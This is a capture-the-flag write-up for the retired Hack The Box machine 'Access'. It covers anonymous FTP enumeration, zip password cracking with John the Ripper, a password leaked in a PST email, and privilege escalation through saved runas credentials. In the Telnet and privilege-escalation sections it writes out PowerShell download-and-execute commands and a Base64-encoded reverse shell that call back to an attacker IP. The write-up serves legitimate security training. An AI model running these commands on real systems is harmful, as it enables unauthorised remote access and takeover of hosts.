 # Access

This is the write-up for the box Access that got retired at the 2nd March 2019.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.98    access.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/access.nmap 10.10.10.98
```

```markdown
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking FTP (Port 21)

On the FTP service _anonymous login_ is allowed and it is possible to see all the files:
```markdown
ftp 10.10.10.98
```

There are two directories, so downloading everything recursively:
```markdown
wget -r --no-passive ftp://10.10.10.98/
```

There are two directories and each has one file in it:
- _Backups/backup.mdb_
- _Engineer/Access Control.zip_

When trying to decompress the _zip_ file, it asks for a password:
```markdown
7z x "Access Control.zip"
```
```markdown
Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip

Enter password (will not be echoed):
ERROR: Wrong password : Access Control.pst
```

Checking the enryption method:
```markdown
7z l -slt "Access Control.zip"
```
```markdown
(...)
Method = AES-256 Deflate
(...)
```

Putting the hash into a file to crack the password later:
```markdown
zip2john "Access Control.zip" > Access_Control.hash
```

The file _backup.mdb_ is a **Microsoft Access Database** and we should take a look at the `strings` of the file:
```markdown
strings -n 8 backup.mdb
```

There are some human-readable strings, so it is not encrypted. The words from the `strings` can be used as a wordlist to get the password of the _zip_ file:
```markdown
strings -n 8 backup.mdb | sort -u > backup_wordlist
```

Cracking the hash with **JohnTheRipper** and the created wordlist:
```markdown
john Access_Control.hash --wordlist=Backups/backup_wordlist
```

The password of the hash for the file _Access Control.zip_ gets found in the wordlist and it is _access4u@security_.

> NOTE: The **Microsoft Access Database** can also be analyzed with **mdbtools** to search for passwords in the database tables.

After using the password on the _zip_ file, it gets decompressed and outputs a **PST file** called _Access Control.pst_.
This is a **Microsoft Outlook email folder** that could have some important emails in it.

The file can be converted into a readable file with **Readpst**:
```markdown
readpst "Access Control.pst"
```
```markdown
cat "Access Control.mbox"
```

There is one email from _john_:
```markdown
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```

There is only one login where the credentials could be used and that is the **Telnet service** on port 23.

## Checking Telnet (Port 23)

The password _"4Cc3ssC0ntr0ller"_ of the user _security_ works on Telnet and logs us into the box.
As this shell is not that great, lets try to elevate to a **PowerShell** shell.

By uploading and executing the PowerShell script _Invoke-PowerShellTcp.ps1_ from the **Nishang Scripts**, we are able to get a reverse shell connection.
I add the following line at the bottom of the script:
```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 9001
```

Uploading and executing the script on the box:
```markdown
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/shell.ps1')"
```

After executing the script, the listener on my IP and port 9001 starts a reverse shell connection as _security_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration Script**:
```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/jaws-enum.ps1')
```

It found stored credentials for _Administrator_:
```markdown
cmdkey /list
```
```markdown
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

In the public home directory _C:\Users\Public\Desktop_ is a **link file** called _"ZKAccess3.5 Security System.lnk"_.
Extracting the contents of the link:
```powershell
$WScript = New-Object -ComObject Wscript.Shell
$shortcut = Get-Childitem "C:\Users\Public\Desktop\ZKAccess3.5 Security System.lnk"

$Wscript.CreateShortcut($shortcut)
```
```markdown
FullName         : C:\Users\Public\Desktop\ZKAccess3.5 Security System.lnk
Arguments        : /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
TargetPath       : C:\Windows\System32\runas.exe
WindowStyle      : 1
WorkingDirectory : C:\ZKTeco\ZKAccess3.5
```

The saved credentials and _runas_ in the link are hints to run commands as _Administrator_ as it seems.
Lets run a Base64-encoded reverse shell with _runas_:
```markdown
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/shell-9002.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```

Running the Base64-decoded PowerShell command with the saved credentials and _runas_:
```markdown
runas /user:ACCESS\Administrator /savecred "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIALwBzAGgAZQBsAGwALQA5ADAAMAAyAC4AcABzADEAJwApAA=="
```

After running the command, the listener on my IP and port 9002 starts a reverse shell session as _Administrator_!
